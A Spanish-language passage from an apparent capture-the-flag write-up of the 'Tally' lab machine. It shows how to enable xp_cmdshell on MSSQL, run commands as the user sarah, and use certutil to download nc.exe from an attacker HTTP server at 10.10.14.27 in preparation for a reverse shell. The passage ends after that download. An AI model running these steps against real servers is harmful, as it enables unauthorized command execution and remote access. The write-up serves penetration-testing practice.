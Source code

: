 Al intentar cambiar la configuración con `sp_configure` nos indica que el componente `xp_cmdshell` no existe. En este punto es necesario habilitar las opciones avanzadas de `sp_configure`.

```bash
1> sp_configure "show advanced options", 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1>
```

Y ahora si vamos a tratar de habilitar `xp_cmdshell`:

```bash
1> sp_configure "xp_cmdshell", 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> xp_cmdshell "whoami"
2> go

        output                                                                     
        -------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
----
        tally\sarah                                                               
        NULL                                                                       
(2 rows affected, return status = 0)
1> 
```

Ya tenemos ejecución de comando y vemos que estamos como el usuario **sarah**. Cabe mencionar que es posible que el componente se vuela a deshabilitar, asi que hay que seguir el mismo proceso anterior para habilitarlo. Ahora lo que nos queda es entablarnos una reverse shell, para este caso vamos a transferir el binario nc.exe haciendo uso de un servidor HTTP con python:

```bash
1> xp_cmdshell "certutil.exe -f -urlcache -split http://10.10.14.27/nc.exe C:\Windows\Temp\nc.exe"                               
2> go                      
        output                                                            
        -------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
----                                                                                                
        ****  Online  ****                 
          0000  ...
          6e00                                                                     
        CertUtil: -URLCache command completed successfully.                       
        NULL                                                                       
```